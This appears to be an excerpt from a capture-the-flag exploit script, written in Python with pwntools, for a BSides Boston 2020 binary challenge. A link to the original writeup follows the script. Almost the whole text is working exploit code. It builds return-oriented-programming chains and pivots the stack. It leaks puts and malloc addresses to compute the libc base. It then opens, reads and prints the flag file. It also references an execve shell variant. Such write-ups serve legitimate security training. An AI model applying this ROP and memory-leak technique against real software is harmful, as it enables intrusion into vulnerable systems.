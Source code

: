 ```python  
   r.readStr(flag_addr, 0xff)  
   r.readStr(data_writable, 0xfff)  
   r.raw(pop_rsp) #  pop rsp; pop r13; pop r14; pop r15; ret;  
   r.raw(data_writable)  
   heap = do_rop(io, r.chain())  
   heap += 1024 # get our of the way of our previous writes

   io.recvuntil("Bio: ")  
   leaks = io.clean()[:-1].split(b"\n")  
   if len(leaks) < 3:  
       return  
   puts_addr = int.from_bytes(leaks[-2], "little")  
   malloc_addr = int.from_bytes(leaks[-1], "little")  
   libc.address = puts_addr-libc.symbols['puts']  
log.info("libc: " +hex(libc.address))

   io.sendline("./flag.txt")

   r = ROP([exe, libc])  
   r.raw(1) #  r13-15  
   r.raw(2) #  r13-15  
   r.raw(3) #  r13-15  
   r.open(flag_addr, 0)  
   if args.LOCAL: # exerimentally chosen FDs of the open flag file  
       r.read(3, heap, 0xff)  
   else:  
       r.read(6, heap, 0xff)  
   r.write(1, heap, 0xff)  
   io.sendline(r.chain())

   dat = io.recv().replace(b"\x00", b"").decode()  
   if len(dat) > 0:  
       print(dat)

#  do_execve_shell()  
do_libc_exploit()  
```  

Original writeup
(https://github.com/jakecraige/ctf/blob/master/bsidesbos-2020/name_tag/writeup.md).